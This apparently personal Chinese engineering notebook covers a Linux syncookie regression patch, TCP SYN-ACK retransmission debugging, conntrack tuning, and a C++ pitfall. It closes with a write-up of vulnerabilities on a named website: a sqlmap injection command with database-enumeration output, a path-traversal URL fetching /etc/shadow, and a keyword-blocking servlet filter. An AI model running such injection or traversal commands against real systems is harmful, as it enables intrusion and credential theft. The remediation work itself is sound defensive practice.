-                                   ireq->loc_addr, th->source, th->dest);

-                security_req_classify_flow(req, flowi4_to_flowi(&fl4));

-                rt = ip_route_output_key(sock_net(sk), &fl4);

-                if (IS_ERR(rt)) {

-                        reqsk_free(req);

-                        goto out;

-                }

+        flowi4_init_output(&fl4, sk->sk_bound_dev_if, sk->sk_mark,

+                           RT_CONN_FLAGS(sk), RT_SCOPE_UNIVERSE, IPPROTO_TCP,

+                           inet_sk_flowi_flags(sk),

+                           (opt && opt->srr) ? opt->faddr : ireq->rmt_addr,

+                           ireq->loc_addr, th->source, th->dest);

+        security_req_classify_flow(req, flowi4_to_flowi(&fl4));

+        rt = ip_route_output_key(sock_net(sk), &fl4);

+        if (IS_ERR(rt)) {

+                reqsk_free(req);

+                goto out;

         }

 

         /* Try to redo what tcp_v4_send_synack did. */

@@ -371,5 +368,10 @@ struct sock *cookie_v4_check(struct sock *sk, struct sk_buff *skb,

         ireq->rcv_wscale  = rcv_wscale;

 

         ret = get_cookie_sock(sk, skb, req, &rt->dst);

+        /* ip_queue_xmit() depends on our flow being setup

+         * Normal sockets get it right from inet_csk_route_child_sock()

+         */

+        if (ret)

+                inet_sk(ret)->cork.fl.u.ip4 = fl4;

 out:    return ret;

 }





Date Wed, 21 Mar 2012 14:15:38 -0700 
From Greg KH <> 
Subject [ 6/9] tcp: fix syncookie regression 
 
 

3.2-stable review patch.  If anyone has any objections, please let me know.

------------------

From: Eric Dumazet <eric.dumazet@gmail.com>

[ Upstream commit dfd25ffffc132c00070eed64200e8950da5d7e9d ]
commit ea4fc0d619 (ipv4: Don't use rt->rt_{src,dst} in ip_queue_xmit())
added a serious regression on synflood handling.
Simon Kirby discovered a successful connection was delayed by 20 seconds
before being responsive.

In my tests, I discovered that xmit frames were lost, and needed ~4
retransmits and a socket dst rebuild before being really sent.

In case of syncookie initiated connection, we use a different path to
initialize the socket dst, and inet->cork.fl.u.ip4 is left cleared.

As ip_queue_xmit() now depends on inet flow being setup, fix this by
copying the temp flowi4 we use in cookie_v4_check().

Reported-by: Simon Kirby <sim@netnation.com>
Bisected-by: Simon Kirby <sim@netnation.com>
Signed-off-by: Eric Dumazet <eric.dumazet@gmail.com>
Tested-by: Eric Dumazet <eric.dumazet@gmail.com>
Signed-off-by: David S. Miller <davem@davemloft.net>
Signed-off-by: Greg Kroah-Hartman <gregkh@linuxfoundation.org>
---
 net/ipv4/syncookies.c |   30 ++++++++++++++++--------------
 net/ipv4/tcp_ipv4.c   |   10 +++++++---
 2 files changed, 23 insertions(+), 17 deletions(-)
--- a/net/ipv4/syncookies.c
+++ b/net/ipv4/syncookies.c
@@ -278,6 +278,7 @@ struct sock *cookie_v4_check(struct sock
 	struct rtable *rt;
 	__u8 rcv_wscale;
 	bool ecn_ok = false;
+	struct flowi4 fl4;
 
 	if (!sysctl_tcp_syncookies || !th->ack || th->rst)
 		goto out;
@@ -346,20 +347,16 @@ struct sock *cookie_v4_check(struct sock
 	 * hasn't changed since we received the original syn, but I see
 	 * no easy way to do this.
 	 */
-	{
-		struct flowi4 fl4;
-
-		flowi4_init_output(&fl4, 0, sk->sk_mark, RT_CONN_FLAGS(sk),
-				   RT_SCOPE_UNIVERSE, IPPROTO_TCP,
-				   inet_sk_flowi_flags(sk),
-				   (opt && opt->srr) ? opt->faddr : ireq->rmt_addr,
-				   ireq->loc_addr, th->source, th->dest);
-		security_req_classify_flow(req, flowi4_to_flowi(&fl4));
-		rt = ip_route_output_key(sock_net(sk), &fl4);
-		if (IS_ERR(rt)) {
-			reqsk_free(req);
-			goto out;
-		}
+	flowi4_init_output(&fl4, 0, sk->sk_mark, RT_CONN_FLAGS(sk),
+			   RT_SCOPE_UNIVERSE, IPPROTO_TCP,
+			   inet_sk_flowi_flags(sk),
+			   (opt && opt->srr) ? opt->faddr : ireq->rmt_addr,
+			   ireq->loc_addr, th->source, th->dest);
+	security_req_classify_flow(req, flowi4_to_flowi(&fl4));
+	rt = ip_route_output_key(sock_net(sk), &fl4);
+	if (IS_ERR(rt)) {
+		reqsk_free(req);
+		goto out;
 	}
 
 	/* Try to redo what tcp_v4_send_synack did. */
@@ -373,5 +370,10 @@ struct sock *cookie_v4_check(struct sock
 	ireq->rcv_wscale  = rcv_wscale;
 
 	ret = get_cookie_sock(sk, skb, req, &rt->dst);
+	/* ip_queue_xmit() depends on our flow being setup
+	 * Normal sockets get it right from inet_csk_route_child_sock()
+	 */
+	if (ret)
+		inet_sk(ret)->cork.fl.u.ip4 = fl4;
 out:	return ret;
 }
--- a/net/ipv4/tcp_ipv4.c
+++ b/net/ipv4/tcp_ipv4.c
@@ -1465,9 +1465,13 @@ struct sock *tcp_v4_syn_recv_sock(struct
 		inet_csk(newsk)->icsk_ext_hdr_len = inet_opt->opt.optlen;
 	newinet->inet_id = newtp->write_seq ^ jiffies;
 
-	if (!dst && (dst = inet_csk_route_child_sock(sk, newsk, req)) == NULL)
-		goto put_and_exit;
-
+	if (!dst) {
+		dst = inet_csk_route_child_sock(sk, newsk, req);
+		if (!dst)
+			goto put_and_exit;
+	} else {
+		/* syncookie case : see end of cookie_v4_check() */
+	}
 	sk_setup_caps(newsk, dst);
 
 	tcp_mtup_init(newsk);






struct sock *cookie_v4_check(struct sock *sk, struct sk_buff *skb,
     struct ip_options *opt)
{
....
struct flowi4 fl4; 
...
//这里初始化fl4
flowi4_init_output(&fl4, sk->sk_bound_dev_if, sk->sk_mark,
   RT_CONN_FLAGS(sk), RT_SCOPE_UNIVERSE, IPPROTO_TCP,
   inet_sk_flowi_flags(sk),
   (opt && opt->srr) ? opt->faddr : ireq->rmt_addr,
   ireq->loc_addr, th->source, th->dest);
...
ret = get_cookie_sock(sk, skb, req, &rt->dst);
/* ip_queue_xmit() depends on our flow being setup
 * Normal sockets get it right from inet_csk_route_child_sock()
 */
if (ret) //这一处必须要加上.
inet_sk(ret)->cork.fl.u.ip4 = fl4;
out: return ret;
}
 
static inline struct sock *get_cookie_sock(struct sock *sk, struct sk_buff *skb,
   struct request_sock *req,
   struct dst_entry *dst)
{
struct inet_connection_sock *icsk = inet_csk(sk);
struct sock *child;
 
child = icsk->icsk_af_ops->syn_recv_sock(sk, skb, req, dst);
if (child)
inet_csk_reqsk_queue_add(sk, req, child);
else
reqsk_free(req);
 
return child;
}
 
/*
 * The three way handshake has completed - we got a valid synack -
 * now create the new socket.
 */
struct sock *tcp_v4_syn_recv_sock(struct sock *sk, struct sk_buff *skb,
  struct request_sock *req,
  struct dst_entry *dst)
{
...
if (!dst) {
dst = inet_csk_route_child_sock(sk, newsk, req);//该函数会给inet->cork.fl.u.ip4赋值
if (!dst)
goto put_and_exit;
} else { //dst不为null时, 是cookie_v4_check()调用get_cookie_sock,然后再调用tcp_v4_syn_recv_sock
           //从这里可以看出cookie_v4_check()的流程中inet->cork.fl.u.ip4必须要赋值
/* syncookie case : see end of cookie_v4_check() */ 
}
...
}
 
 
 
struct dst_entry *inet_csk_route_child_sock(struct sock *sk,
    struct sock *newsk,
    const struct request_sock *req)
{
const struct inet_request_sock *ireq = inet_rsk(req);
struct inet_sock *newinet = inet_sk(newsk);
struct ip_options_rcu *opt = ireq->opt;
struct net *net = sock_net(sk);
struct flowi4 *fl4;
struct rtable *rt;
 
//给cork.fl.u.ip4赋值
fl4 = &newinet->cork.fl.u.ip4;
flowi4_init_output(fl4, sk->sk_bound_dev_if, sk->sk_mark,
   RT_CONN_FLAGS(sk), RT_SCOPE_UNIVERSE,
   sk->sk_protocol, inet_sk_flowi_flags(sk),
   (opt && opt->opt.srr) ? opt->opt.faddr : ireq->rmt_addr,
   ireq->loc_addr, ireq->rmt_port, inet_sk(sk)->inet_sport);
security_req_classify_flow(req, flowi4_to_flowi(fl4));
rt = ip_route_output_flow(net, fl4, sk);
if (IS_ERR(rt))
goto no_route;
if (opt && opt->opt.is_strictroute && fl4->daddr != rt->rt_gateway)
goto route_err;
return &rt->dst;
 
route_err:
ip_rt_put(rt);
no_route:
IP_INC_STATS_BH(net, IPSTATS_MIB_OUTNOROUTES);
return NULL;
}

* 发现大量的链接处于SEND_RCV状态
   并发syn数：170左右，同时TCP 已建连接数：100以下，cpu利用率1%，内存仍有3G左右。系统日志中无异常信息。
   从统计图上看，当时出现多次ping超过500ms的情况，怀疑当时系统网络或者本地网络拥塞，

多次运行 ss -ant | grep SYN-RCV | wc -l

发现处于SYN_RCV状态的链接数从100多，快速增加2000左右；
然后再降到100左右；
使用tcpdump抓包，发现在突然发送大量的SNDACK包
10:20:36.586213 IP 123.103.18.129.http-alt > 222.75.228.159.43008: S 1555022631:1555022631(0) ack 3268700846 win 14480 <mss 1460,sackOK,timestamp 48273825 7939634,nop,wscale 7>
10:20:36.586218 IP 123.103.18.129.http-alt > 106.8.166.63.9716: S 3024222476:3024222476(0) ack 3321547315 win 14480 <mss 1460,sackOK,timestamp 48273825 1163946,nop,wscale 7>
10:20:36.586222 IP 123.103.18.129.http-alt > 115.153.187.40.31183: S 3062004217:3062004217(0) ack 1838085789 win 14480 <mss 1460,sackOK,timestamp 48273825 4294914380,nop,wscale 7>
10:20:36.586229 IP 123.103.18.129.http-alt > 114.232.38.74.16608: S 2359021672:2359021672(0) ack 506986907 win 14480 <mss 1460,sackOK,timestamp 48273825 4294916009,nop,wscale 7>
10:20:36.586232 IP 123.103.18.129.http-alt > 113.121.109.104.19405: S 1162268174:1162268174(0) ack 238141524 win 14480 <mss 1460,sackOK,timestamp 48273825 4294923927,nop,wscale 7>
10:20:36.586236 IP 123.103.18.129.http-alt > 116.11.168.52.9183: S 1050817569:1050817569(0) ack 4115176365 win 14480 <mss 1460,sackOK,timestamp 48273825 0,nop,wscale 7>
10:20:36.586241 IP 123.103.18.129.http-alt > 59.173.168.148.30583: S 1371249872:1371249872(0) ack 3577838620 win 14480 <mss 1460,sackOK,timestamp 48273825 4294923827,nop,wscale 7>
10:20:36.586245 IP 123.103.18.129.http-alt > 221.197.55.96.20478: S 2418725162:2418725162(0) ack 2117844143 win 14480 <mss 1460,sackOK,timestamp 48273825 5197409,nop,wscale 7>
10:20:36.586249 IP 123.103.18.129.http-alt > 112.194.149.81.16419: S 3667608011:3667608011(0) ack 1869692403 win 14480 <mss 1460,sackOK,timestamp 48273825 4294912562,nop,wscale 7>

开始怀疑是内核没有及时处理接受的SYN请求。
看了ip接受到tcp发送synack的代码流程
网卡驱动--->netif_rx()--->netif_receive_skb()->deliver_skb()->packet_type.func

-> ip_rcv -> ip_rcv_finish -> dst_input -> ip_local_deliver -> ip_local_deliver_finish -> tcp_v4_rcv

tcp_v4_do_rcv -> tcp_rcv_state_process -> conn_request
tcp_v4_conn_request -> tcp_v4_send_synack -> ip_local_out -> dst_output

ip_output -> ip_finish_output -> ip_finish_output2->neigh_hh_output -> dev_queue_xmit
  第一流程->    __dev_xmit_skb  ...       -> __netif_reschedule -> .. qdisc_run -> 软中断-> net_tx_action ...->第二流程
  第二流程->dev_hard_start_xmit-> dev_queue_xmit_nit(抓包点）

于是认为是qdisc_run的流程没有及时发送synack包。
并且查到类似的kernel bug

但是后来Tony,使用ss -anoi|grep SY
查看链接信息：
#+begin_example
\#ss -anoi|grep SY
SYN-RECV 0   0    123.103.18.129：8080   223.8.185.227：12950  time(on,2.904ms, 0)
SYN-RECV 0   0    123.103.18.129：8080   119.179.94.61：28197  time(on,2.480ms, 0)
SYN-RECV 0   0    123.103.18.129：8080   112.243.175.217：46771  time(on,7.120ms, 3)
SYN-RECV 0   0    123.103.18.129：8080   42.225.194.114：50249  time(on,10sec, 3)
SYN-RECV 0   0    123.103.18.129：8080   114.236.150.154：16522  time(on,13
sec, 3)
...
#+end_example
等
发现SYNACK是再重传。

我再仔细看了一个抓包记录
仔细看了几条数据，表明是TCP在重传SYNACK,
第一次SYN
10:20:27.376689 IP 123.103.18.136 > Nginx-a.site: IP 123.165.208.24.57376 > 123.103.18.129.http-alt: S 3619930744:3619930744(0) win 14600 <mss 1380,sackOK,timestamp 4294923162 0,nop,wscale 6> (ipip-proto-4)
第二次SYN
10:20:30.385987 IP 123.103.18.136 > Nginx-a.site: IP 123.165.208.24.57376 > 123.103.18.129.http-alt: S 3619930744:3619930744(0) win 14600 <mss 1380,sackOK,timestamp 4294923764 0,nop,wscale 6> (ipip-proto-4)
 
第一次回应SYN/ACK
10:20:27.376705 IP 123.103.18.129.http-alt > 123.165.208.24.57376: S 111537984:111537984(0) ack 3619930745 win 14480 <mss 1460,sackOK,timestamp 48271522 4294923162,nop,wscale 7>
下面两条 一条是收到10:20:30.385987的SYN,触发另一个流程发送的SYNACK；一条是定时器触发的
10:20:30.386000 IP 123.103.18.129.http-alt > 123.165.208.24.57376: S 111537984:111537984(0) ack 3619930745 win 14480 <mss 1460,sackOK,timestamp 48272274 4294923162,nop,wscale 7>
10:20:30.582128 IP 123.103.18.129.http-alt > 123.165.208.24.57376: S 111537984:111537984(0) ack 3619930745 win 14480 <mss 1460,sackOK,timestamp 48272324 4294923162,nop,wscale 7>
6秒超时发送SYN/ACK
10:20:36.586168 IP 123.103.18.129.http-alt > 123.165.208.24.57376: S 111537984:111537984(0) ack 3619930745 win 14480 <mss 1460,sackOK,timestamp 48273825 4294923162,nop,wscale 7>

很多几条记录都和上面的类似。
现在基本可以确定SYN处理慢是由于网络问题引起的。 

* kernel: nf_conntrack: table full, dropping packet
  一个同事测试一个服务的并发性。
  测试环境：一个台server，两个模拟客户端。
  一个客户端并发50000个链接，没有问题。
  另一个客户端并发14000左右就出现链接不成功的问题。
  
  开始我怀疑是第二个客户端自身的问题。
  但是当出现问题后，在第一个客户端上执行telnet sever_ip 8080
  也经常会出现链接超时。

  在看了一下cpu等没有问题。
  看了ulimit -a 最大允许的文件句柄，很大，没有问题。
  后来dmesg，看到server上有大量的
  kernel: nf_conntrack: table full, dropping packet
  
  于是上网查找对应问题，发现需要配置sysctl:
  net.nf_conntrack_max=655350
  net.netfilter.nf_conntrack_max=655350
  net.netfilter.nf_conntrack_tcp_timeout_established = 1200
  但是我看了cat /etc/sysctl.conf，发现这个几个值是增大的。没有问题。

  后来执行sysctl -a | grep conntrack，发现实际起作用的
  net.nf_conntrack_max=65535
  net.netfilter.nf_conntrack_max=65535

  于是我执行了sysctl -p使用/etc/sysctl.conf的参数。
  问题就没有了。

* c++ 数字转换string的错误写法
  使用类似java的数字转换为字符串的方法。
  string str = "" + 3;
  是错误的。
  如果写成这样，问题就明显了：
  string str = "123456" + 3;
  cout << str << endl;
  输出结果为：
  456
* aaa服务返回结果xml，加入签名后，性能锐减50%
  加入的签名API有一个锁。
  而aaa服务启动了几百线程，显然该锁减低了aaa的并发性。
  而API之所以加锁是由于openssl的加密/解密的api，不是线程安全。
  后来查资料获取openssl对多线程支持的方法。
  
* 海信社区安全漏洞
1、POST型SQL注入
    存在SQL注入的站点www.hismarttv.com/ajax/getHotAppList.jspx

使用sqlmap
./sqlmap.py -u 'http://www.hismarttv.com/ajax/getHotAppList.jspx'  --data 'appId=9000000104031&count=7&deviceCode=&deviceType=003&PageNo=0&t=0.40499216807074845&type=3' --dbs --current-user --current-db

返回：
#+begin_example
[14:03:20] [INFO] the back-end DBMS is MySQL

web application technology: JSP, Apache 2.2.15
back-end DBMS: MySQL 5.0.11
[14:03:20] [INFO] fetching current user
[14:03:20] [INFO] retrieved: hitv@%
current user:    'hitv@%'

[14:03:27] [INFO] fetching current database
[14:03:27] [INFO] retrieved: asop
current database:    'asop'

[14:03:35] [INFO] fetching database names
[14:03:35] [INFO] fetching number of databases
[14:03:35] [INFO] retrieved: 8
[14:03:36] [INFO] retrieved: information_schema
[14:03:55] [INFO] retrieved: asop
[14:04:00] [INFO] retrieved: backup
[14:04:08] [INFO] retrieved: hitv
[14:04:13] [INFO] retrieved: #mysql50#lost+found
[14:04:34] [INFO] retrieved: mysql
[14:04:40] [INFO] retrieved: performance_schema
[14:05:00] [INFO] retrieved: test
available databases [8]:
[*] #mysql50#lost+found
[*] asop
[*] backup
[*] hitv
[*] information_schema
[*] mysql
[*] performance_schema
[*] test
#+end_example

2、任意文件下载
http://www.hismarttv.com/DownloadServlet?contentId=217&downFile=../../../../../../../../../../etc/shadow&fileSize=&flag=1&userName=admin
可以下载到shadow文件

解决办法：
我使用tomcat中filter对输入参数进行匹配，发现有sql关键字和符号，返回404错误
#+begin_src java

import javax.servlet.RequestDispatcher;
import javax.servlet.ServletException;
import javax.servlet.http.Cookie;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.HttpSession;
import java.io.IOException;
import java.util.Enumeration;

import javax.servlet.Filter;
import javax.servlet.FilterChain;
import javax.servlet.FilterConfig;
import javax.servlet.ServletContext;
import javax.servlet.ServletException;
import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;
import javax.servlet.http.Cookie;
import javax.servlet.http.HttpServletRequest;
import java.util.regex.Pattern;
import java.util.regex.Matcher;

public class CheckFilter implements Filter{
    FilterConfig fc;
    public void destroy() {

    }
  
    static String reg = "(?:')|(?:--)|(/\\*(?:.|[\\n\\r])*?\\*/)|" 
        + "\\.\\./|"
        + "(\\b(select|update|and|or|delete|insert|truncate|char|into|substr|ascii|declare|exec|count|master|into|drop|execute|union)\\b)";  
  
    static Pattern sqlPattern = Pattern.compile(reg, Pattern.CASE_INSENSITIVE);  
  
    public static boolean isValid(String str) {  
        if (sqlPattern.matcher(str).find()) {  
            return false;  
        }
        return true;
    }

    public void doFilter(ServletRequest request, ServletResponse response,
                         FilterChain chain) throws IOException, ServletException {
        HttpServletRequest hreq=(HttpServletRequest) request;
        HttpServletResponse hres=(HttpServletResponse) response;
        HttpSession session = hreq.getSession();
        Enumeration paramNames = hreq.getParameterNames();

        while(paramNames.hasMoreElements() ) {

            String paramName = (String)paramNames.nextElement();
            String[] paramValues = hreq.getParameterValues(paramName);
            for(int i = 0; i < paramValues.length; i++) {
               String val = paramValues[i];
               if(! isValid(val)) {
                   hres.sendError(HttpServletResponse.SC_NOT_FOUND);
                   return;
               }
            }
        }
        chain.doFilter(request, response);
    }
    public void init(FilterConfig fc) throws ServletException {
        this.fc=fc;
    }


}
#+end_src
将编译后的CheckFilter.class放到/tomcat/lib/下。
在web.xml加入：
 <filter>
       <filter-name>CheckFilter</filter-name>
       <filter-class>CheckFilter</filter-class>
 </filter>
 <filter-mapping>
     <filter-name>CheckFilter</filter-name>
     <url-pattern>/*</url-pattern>
 </filter-mapping>

重启tomcat后，再使用sqlmap测试，无法进行SQL注入了。well done

